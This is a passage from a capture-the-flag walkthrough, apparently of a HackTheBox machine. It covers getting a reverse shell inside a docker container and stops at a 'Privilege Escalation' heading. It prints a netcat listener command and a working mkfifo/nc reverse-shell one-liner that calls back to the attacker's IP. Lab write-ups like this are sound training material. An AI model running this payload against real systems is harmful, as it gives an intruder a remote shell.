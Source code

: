 ![request](../.res/2022-12-26-16-32-26.png)
- It does get the file!
![python server](../.res/2022-12-26-16-33-07.png)
- So now we should try to get a shell. Let's set up a listener `rlwrap nc -lvp 4444`  
- So I tried multiple payload from my pentips, [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- The only one that worked is this one (do not forget the semi colon in the end and put sh and not bash because bash will fail) `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f;`
- So we get a shell. It's root, but last time I saw this it was because I ended up in a docker container.  
![shell](../.res/2022-12-26-17-23-13.png)
- And an ls proves that we indeed are in a docker again  
![docker](../.res/2022-12-26-17-27-44.png)
- We can grab the user flag from `/home/svc/user.txt`

## Privilege Escalation
